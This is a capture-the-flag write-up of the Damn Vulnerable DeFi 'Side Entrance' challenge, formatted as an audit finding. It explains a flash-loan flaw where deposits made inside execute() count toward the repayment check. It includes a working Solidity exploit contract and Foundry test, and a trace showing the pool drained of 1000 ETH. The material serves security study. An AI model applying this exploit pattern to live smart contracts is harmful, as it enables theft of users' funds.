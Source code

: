 # Damn Vulnerable Defi - Side Entrance
- Scope
    - SideEntranceLenderPool.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## `flashLoan()` function allow users to call a custom malicious `execute()`

### Summary
`flashLoan()` function allow users to call a custom `execute()` which can be malicious. We can create the custom `execute()` that first perform a flash loan and then deposit the amount from the pool into the pool, but at the same time fake increases the deposit `balances()` of the msg.sender. After which, the user can withdraw the amount from the pool.

### Vulnerability Details
The `flashLoan()` function allow users to call a custom `execute()`, which can resulted in malicious transactions.
```diff
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

+        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```
### Impact/Proof of Concept
1. Create custom execute()
2. Call flashLoan() and which will call custom execute
3. custom execute() will perform a deposit of flashLoan amount and increases msg.sender's deposit
4. It fulfills the balance check as ETH didnt leave the pool
```
function test_sideEntrance() public checkSolvedByPlayer {
        console.log("pool beforeBalance: ", address(pool).balance / 1e18);
        Exploit attacker = new Exploit(pool);
        attacker.loan(address(recovery));
        console.log("pool aftereBalance: ", address(pool).balance / 1e18);
        console.log("recovery Balance: ", address(recovery).balance / 1e18);
    }

contract Exploit is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    
    constructor(SideEntranceLenderPool _pool){
        pool = _pool;
    }

    receive() external  payable {}
    
    // Custom execute() function, that deposits the flash loan amount back into the pool.balances
    // 'fake' increase of the user's deposit balances()
    function execute() external payable {
        pool.deposit{value:msg.value}();
    }

    function loan(address target) external {
        uint256 amount = address(pool).balance;
        pool.flashLoan(amount); // Loan amount and then deposit the amount
        pool.withdraw(); // Withdraw the amount from pool
        target.call{value: amount}(""); // Then transfer the amount from this contract to recovery
    }
}
```

Results
```diff
[PASS] test_sideEntrance() (gas: 265419)
Logs:
  pool beforeBalance:  1000
  pool aftereBalance:  0
  recovery Balance:  1000

Traces:
  [265419] SideEntranceChallenge::test_sideEntrance()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return] 
    ├─ [0] console::log("pool beforeBalance: ", 1000) [staticcall]
    │   └─ ← [Stop] 
    ├─ [149765] → new Exploit@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 525 bytes of code
    ├─ [82944] Exploit::loan(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa])
    │   ├─ [38434] SideEntranceLenderPool::flashLoan(1000000000000000000000 [1e21])
    │   │   ├─ [31091] Exploit::execute{value: 1000000000000000000000}()
    │   │   │   ├─ [23793] SideEntranceLenderPool::deposit{value: 1000000000000000000000}()
    │   │   │   │   ├─ emit Deposit(who: Exploit: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   ├─ [8787] SideEntranceLenderPool::withdraw()
    │   │   ├─ emit Withdraw(who: Exploit: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   ├─ [55] Exploit::receive{value: 1000000000000000000000}()
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   ├─ [0] recovery::fallback{value: 1000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] console::log("pool aftereBalance: ", 0) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] console::log("recovery Balance: ", 1000) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(0, 0, "Pool still has ETH") [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(1000000000000000000000 [1e21], 1000000000000000000000 [1e21], "Not enough ETH in recovery account") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.12ms (270.17µs CPU time)

Ran 1 test suite in 792.85ms (1.12ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
